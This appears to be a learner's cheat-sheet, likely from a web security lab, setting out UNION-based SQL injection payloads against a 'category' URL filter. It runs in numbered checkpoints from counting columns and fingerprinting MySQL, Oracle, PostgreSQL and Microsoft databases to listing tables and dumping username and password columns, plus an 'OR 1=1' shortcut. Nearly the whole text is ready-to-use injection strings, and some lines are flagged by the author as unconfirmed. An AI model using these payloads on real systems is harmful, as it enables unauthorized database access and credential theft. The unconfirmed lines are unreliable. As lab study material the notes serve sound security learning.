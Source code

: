 Assuming: GET /filter?category=Tech+gifts HTTP/1.1

Checkpoint 1. Determine number of columns

    Method 1:
      =Tech+gifts' ORDER BY 1-- HTTP/1.1          // note must replace -- with # for comment in MySQL
      =Tech+gifts' ORDER BY 2-- 
      =Tech+gifts' ORDER BY 3-- 
      etc. 
    
    Method 2:
      =Tech+gifts' UNION SELECT NULL-- HTTP/1.1    // note must use THIS FOR ORACLE: ' UNION SELECT NULL FROM DUAL --
      =Tech+gifts' UNION SELECT NULL,NULL-- 
      =Tech+gifts' UNION SELECT NULL,NULL,NULL-- 
      etc.
    
    
Checkpoint 2. Determine columns with a useful data type

      =Tech+gifts' UNION SELECT 'a',NULL,NULL,NULL-- HTTP/1.1
      =Tech+gifts' UNION SELECT NULL,'a',NULL,NULL--
      =Tech+gifts' UNION SELECT NULL,NULL,'a',NULL--
      =Tech+gifts' UNION SELECT NULL,NULL,NULL,'a'--
      
Checkpoint 3. Examine Database

      Microsoft, MySQL:       SELECT @@version
      Oracle:                 SELECT * FROM v$version
      PostgreSQL:             SELECT version() 
      
      Example for Microsoft:  =Tech+gifts' UNION SELECT @@version,NULL-- HTTP/1.1
      Example for Oracle:     =Tech+gifts' UNION SELECT banner,NULL FROM v$version-- HTTP/1.1
      
Checkpoint 4. List contents of the Database 

    Works for all except Oracle
      1. =Tech+gifts' UNION SELECT table_name,NULL FROM information_schema.tables-- HTTP/1.1
      2. =Tech+gifts' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'Users'--
      3. =Tech+gifts' UNION SELECT username_sdfsd,password_asd FROM users_verwlw--
          https://www.postgresql.org/docs/9.5/infoschema-columns.html
    
    Listing Contents for Oracle:
      1. =Tech+gifts' UNION SELECT table_name,NULL FROM all_tables-- HTTP/1.1
      2. =Tech+gifts' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'Users'--
      3. =Tech+gifts' UNION SELECT username_sdfsd,password_asd FROM users_verwlw--	
          https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
     
Checkpoint 5. Retrieve Multiple Values within a single column
    
    =Tech+gifts' UNION SELECT null,username || password FROM users-- HTTP/1.1   // Oracle and PostgreSQL
    =Tech+gifts' UNION SELECT null,username + password FROM users--             // Microsoft *** NEED CONFIRMATION
    =Tech+gifts' UNION SELECT null,username password FROM users--               // MySQL (notice the space) *** NEED CONFIRMATION
        
    
Shortcuts (unlikely but possible)

    =Tech+gifts' OR 1=1-- HTTP/1.1          // returns all items since 1=1
    

